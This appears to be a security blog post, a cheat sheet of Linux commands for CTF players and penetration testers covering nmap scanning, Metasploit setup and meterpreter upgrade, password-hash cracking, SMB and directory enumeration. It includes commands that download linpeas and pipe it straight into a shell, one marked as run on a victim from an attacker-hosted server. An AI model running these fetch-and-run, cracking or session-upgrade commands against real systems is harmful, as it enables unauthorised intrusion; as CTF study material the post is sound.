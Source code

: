 ```yaml
---
title: Linux Commands for Hacking and Security
date: 2023-08-08
author: Abhinav Kumar
image: {
  src: "/images/bash.jpeg",
  alt: "Linux Commands for Everyday Hacking and Security",
}
description: Linux commands and shortcuts very often used by Hackers, Security professionals, CTF Players.
draft: false
category: Hacking 101
---
```


Linux commands that are often used by hackers, security professional and CTF players. We will avoid any payloads or oneliner exploits ( will cover in different page sometime).
Updated - October 02, 2023.

### Add Target to hosts file

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo '10.10.196.20 blue.thm' | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.196.20 blue.thm
```

### Nmap

```bash
#for TCP Scan
sudo nmap -sC -sV -p- -T5 -Pn targethost

#for UDP Scan
sudo nmap -sU -sV -p- -T5 -Pn targethost

# Store scan results for ports separated by comma.
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 cronos.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')

# Check which ports are found
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo $ports
22,53,80,9227,19041,30100

# Pass the information in -p argument as $ports
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ sudo nmap -sC -sV -A -O -T5 -p$ports cronos.htb
```



## Metasploit

Start Metasploit with database
```bash
# Pass the information in -p argument as $ports
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ systemctl start postgresql

┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ msfdb init
Creating database user 'msf'
Enter password for new role:
Enter it again:
Creating databases 'msf' and 'msf_test'
Creating configuration file in /usr/share/metasploit-framework/config/database.yml
Creating initial database schema
```

### Metasploit Shell Upgrade to Meterpreter

```bash
sessions -u 3
sessions -u -1
use post/multi/manage/shell_to_meterpreter
run session=-1
```

Cracking hash with John

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
```

### Cracking hash with hashcat

Windows NTLM Hash
```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz
```




## Extract Files

Gz Files

```bash
gunzip archive.gz
```

tar Files
```bash
tar –xvzf archive.tar.gz
```

## SSH Connection 

```bash
ssh username@host -oHostKeyAlgorithms=+ssh-dss
```


## Text Filter

```bash
grep -i #]- inlcude
grep -v #]- exclude
```
## SMB Enumeration

nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse target_HOST
```

```bash
smbclient //IP/directory
```

Mount NFS Share

make directory locally and mount it
```bash
mkdir /mnt/sampleDIR
sudo mount IP:/folder /mnt/sampleDIR
```
## netcat

get version via banner
```bash
nc IP port
```
## Linpeas

# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

### Python Simple HTTP Server


```bash
python3 -m http.server 7777
curl 10.10.10.10/linpeas.sh | sh #Victim
```

### Wordpress CMS Vulnerabilty Scanning

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```

## Directory Enumeration

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cronos.htb/FUZZ -mc 200,403 -c -t 400

                                                   
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ gobuster dir -u  http://cronos.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --threads 200 --quiet

```

## Reading a File

```bash
cat
head
head -20 filepathandname
tail filename
tail -20 filename
cat filename | grep "word_to_filter"
more
less

```

## Replace in File

```bash
sed /s/wordtoreplace/wordtoreplacewith/g /filepath > outputfilepath
```